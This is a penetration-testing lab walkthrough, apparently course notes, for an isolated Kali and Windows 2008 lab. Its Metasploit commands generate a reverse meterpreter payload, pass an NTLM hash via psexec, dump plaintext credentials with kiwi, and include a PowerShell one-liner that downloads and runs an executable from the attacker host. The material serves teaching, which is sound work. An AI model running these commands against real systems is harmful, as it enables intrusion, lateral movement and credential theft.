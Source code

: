 1. Download M1 from Google Drive

2. Start:
-Kali2<BR>
-2k8dc_a2<BR>
-2k8m2_a1<BR>


3. On the Kali2 host, set a static IP 192.168.168.110<BR>
ifconfig eth0 192.168.168.110<BR>
ifconfig eth0 netmask 255.255.255.0<BR><BR>

4. Repeat last week’s step's to gain the password hash from M2 (refer to last week's notes). You'll want to grab the 32 characters on one side of the : and the 32 characters afterwards, such as<BR> aad3b435b51404eeaad3b435b51404ee:e7bf67913f1f54abf11af55aee36b9e9<BR>

5. Generating a reverse meterpreter payload within msfvenom (Kali 2):<BR>
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.168.110 lport=7477 -f exe -o /var/www/html/payload.exe<BR>
#Then don’t forget to start a listener and restart apache<BR>

6. Copy password and hash to a text file on the Kali box for reference.<BR>
7. Stop the VM 2k8m2_a1<BR>
8. Start the VM 2k8m1<BR>
9. Determine M1’s IP<BR>
10. Perform information gathering and enumeration against M1 with nmap<BR>
11. We know the password for M2's local Administrator, let's try it against M1.<BR>
12. With SMB open, what can we use to get onto M1?  The psexec module is often used by penetration testers to obtain access to a given system that you already know the credentials for. #It was written by sysinternals and has been integrated within the framework.<BR>
13. Within msfconsole:<BR>
use exploit/windows/smb/psexec<BR>
set rhost 192.168.168.101<BR>
set SMBUser Administrator<BR>
set SMBPass aad3b435b51404eeaad3b435b51404ee:e7bf67913f1f54abf11af55aee36b9e9<BR>
show options<BR>
set payload windows/meterpreter/reverse_tcp<BR>
set lhost 192.168.168.110<BR>
set lport 7479<BR>
exploit<BR>
14. meterpreter > hashdump<BR>
[-] priv_passwd_get_sam_hashes: Operation failed: The parameter is incorrect.<BR>
meterpreter > sysinfo<BR>
Computer        : M1<BR>
OS              : Windows 2008 R2 (Build 7601, Service Pack 1).<BR>
Architecture    : x64 (Current Process is WOW64)<BR>
meterpreter > background<BR>

15. Move to a 64bit Meterpreter session:<BR>
msfconsole> use windows/local/payload_inject <BR>
set payload windows/x64/meterpreter/reverse_tcp <BR>
set session x<BR>
set lhost 192.168.168.110<BR>
exploit<BR>
meterpreter> sysinfo<BR>

16. Now try getting the password in plaintext. If for some reason you don’t see Alice’s password within a 64 bit Meterpreter shell, you need to delete the M1 virtual and re-extract the zip file or redownload it from Google Drive. Remember, interactive logins are wiped from memory when the system restarts!<BR>
meterpreter> load kiwi<BR>
meterpreter> help<BR>
meterpreter> creds_all<BR>
Now that you have the creds, how did you get them? From what insecure package?<BR>
  
17. Via RDP, connect to the DC with the new creds for Alice.<BR>
18. How can we get a payload on the box if Enhanced IE security is enabled? Hint: Zones or PowerShell<BR>
PowerShell (New-Object System.Net.WebClient).DownloadFile('http://192.168.168.110/yourpayload.exe','yourpayload.exe.exe');Start-Process 'yourpayload.exe'

19. How did you find missing patches before?<BR>
  
  
  
